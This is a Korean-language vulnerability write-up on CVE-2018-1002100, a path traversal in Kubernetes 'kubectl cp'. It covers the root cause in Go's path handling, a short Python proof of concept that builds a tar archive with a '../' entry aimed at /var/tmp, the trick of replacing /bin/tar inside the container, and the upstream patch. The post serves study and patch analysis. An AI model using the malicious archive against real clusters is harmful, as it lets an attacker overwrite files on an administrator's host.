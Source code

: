 ```yaml
---
layout: post
title: "CVE-2018-1002100"
date: 2021-12-28
categories: Kubernetes
tags: [kubernetes, cve]
---
```


# 개요

|     취약한 버전     |           취약점 종류           |                                 취약점 설명                                  |
| :-----------------: | :-----------------------------: | :--------------------------------------------------------------------------: |
| kubernetes: ~v1.9.5 | overwrite arbitrary local files | “kubectl cp” 명령어를 통해, 컨테이너에서 노드의 파일을 덮어쓸 수 있는 취약점 |

---

# 배경지식

아래는 pkg/kubectl/cmd/cp.go 파일을 볼 때, 알아야 하는 함수들이다.  
path.join 함수는 입력된 경로들을 순차적으로 탐색했을 때, 나올 수 있는 하나의 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	fmt.Println(path.Join("a", "/b", "/c"))
	fmt.Println(path.Join("a", "/b/c"))
	fmt.Println(path.Join("a/b", "/c"))

	fmt.Println(path.Join("a/b", "../../../xyz"))

	fmt.Println(path.Join("", ""))
	fmt.Println(path.Join("a", ""))
	fmt.Println(path.Join("", "a"))
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC4.png?raw=true)

path.clean 함수는 입력된 경로와 동등한 가장 짧은 경로를 반환하는 함수이다.

```
package main
import (
	"fmt"
	"path"
)

func main() {
	paths := []string{
		"a/c",
		"a//c",
		"a/c/.",
		"a/c/b/..",
		"/../a/c",
		"/../a/b/../././/c",
		"",
	}
	for _, p := range paths {
		fmt.Printf("Clean(%q) = %q\n", p, path.Clean(p))
	}
}
```

위 코드의 실행 결과는 다음과 같다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC3.png?raw=true)

---

# Root Cause 분석

“kubectl cp” 명령어를 수행하면, tar 아카이브 파일을 컨테이너와 호스트가 주고 받는데, 이때 호스트는 kubectl 내에 구성된 cp.go 파일에서 tar 파일을 처리하는 루틴을 구현해 놓았고, 컨테이너에서는 /bin/tar 바이너리를 사용해서 tar 아카이빙을 수행한다.

이때, 호스트에서 전송받은 tar 아카이브 파일이 “../../../../../tmp/foo”와 같이, 상위 디렉토리로 거슬러 올라가도록 만들어 놓으면, 파일을 해제할 때, 이를 그대로 올라가 파일을 덮어쓴다. 즉, path traversal이 일어나는 것이고, /bin/tar 바이너리를 공격자가 임의로 수정하면, “kubectl cp” 명령이 해당 컨테이너를 대상으로 수행될 때, 항상 원하는 결과를 반환할 수 있다. 따라서, 위에서 재연할 때는, 미리 구현한 특정 tar 아카이브를 읽도록 /bin/tar 실행 파일을 수정하였다.

```
func untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, header.Name[len(prefix):])
		...
}
```

header.Name[len(prefix):]은 header.Name에서 prefix를 제외하고난 파일명이다.

위에서도 봤듯이 path.Join은 단순히 인자로 들어간 경로들을 차례로 접근했을 때, 하나의 단순화된 경로를 반환하는 함수이다. 즉, path traversal로 루트 디렉토리로 파고들어가는 것이 가능하다.

`kubectl cp mongodb:/something ./123`

- prefix: something
- destFile: ./123
- header.Name: 아카이브에 있는 파일/디렉토리 명
- outFileName: destFile과 header.Name에서 prefix를 제외하여 path.Join한 결과

→ 원래라면, prefix를 빼고, destFile을 상위 디렉토리로 하여 파일을 복사해오는 것이지만, path traversal이 일어나기 때문에, 상위 디렉토리로 올라가게 된다.

---

# Exploit 재연

```
#!/usr/bin/python3

import tarfile
import tempfile
import os
import base64

with tarfile.TarFile.open("sample.tar", "w") as tar:
  with tempfile.NamedTemporaryFile() as text:
    text.write(b"Hello World\n")
    text.flush()

    tar.add(text.name,
      arcname="../../../../../../../var/tmp/unexpected")

  tar.close()
```

위 파일은 sample.tar를 만드는 코드로, 위를 수행하면, sample.tar 아카이브가 만들어지는데, 이를 확인해보면 다음과 같다. 파일명을 자세히 보면, 상위 디렉토리로 계속 거슬러 올라가서 /var/tmp/unexpected 파일을 압축한 것임을 알 수 있다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC5.png?raw=true)

그리고, 컨테이너 내에서의 tar 파일을 지우고, 이를 쉘 스크립트 파일로 “cat sample.tar”을 하도록 만든다면, 쿠버네티스의 관리자가 공격자의 컨테이너를 대상으로 “kubectl cp” 명령어를 쳤을 때, 다음과 같이 공격에 성공할 수 있다.

![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC6.png?raw=true)

---

# 패치 내용

```
// clean prevents path traversals by stripping them out.
// This is adapted from https://golang.org/src/net/http/fs.go#L74
func clean(fileName string) string {
	return path.Clean(string(os.PathSeparator) + fileName)
}

unc untarAll(reader io.Reader, destFile, prefix string) error {
	entrySeq := -1

	// TODO: use compression here?
	tarReader := tar.NewReader(reader)
	for {
		header, err := tarReader.Next()
		if err != nil {
			if err != io.EOF {
				return err
			}
			break
		}
		entrySeq++
		mode := header.FileInfo().Mode()
		outFileName := path.Join(destFile, clean(header.Name[len(prefix):]))
		baseName := path.Dir(outFileName)
		...
}
```

outFileName, 즉, 파일을 호스트에 덮어 쓸 때, path.Clean을 수행하였고, untarAll에서 해당 함수 한 번 호출하도록 업데이트한 이후, 1.9.6에서 1.13.4까지 이 패치가 지속되었다. 아래는 path.clean 함수의 수행 결과를 보여주는데, 이러한 조치가 path traversal을 막는 적절한 조치였다는 것을 확인할 수 있다.

```
package main

import (
        "fmt"
        "os"
        "path"
)

func clean(fileName string) string {
        return path.Clean(string(os.PathSeparator) + fileName)
}

func main() {
        fmt.Println(clean("../../../../../../../var/tmp/unexpected"))
```



![](https://github.com/GroomPang/Research/blob/main/pictures/%EA%B7%B8%EB%A6%BC7.png?raw=true)

---

# 참고자료

National Vulnerability Database, “CVE-2018-1002100 Detail”, [link](https://nvd.nist.gov/vuln/detail/CVE-2018-1002100)

Michael Hanselmann, “OpenShift Source-to-Image build privilege escalation to root”, [link](https://hansmi.ch/articles/2018-04-openshift-s2i-security)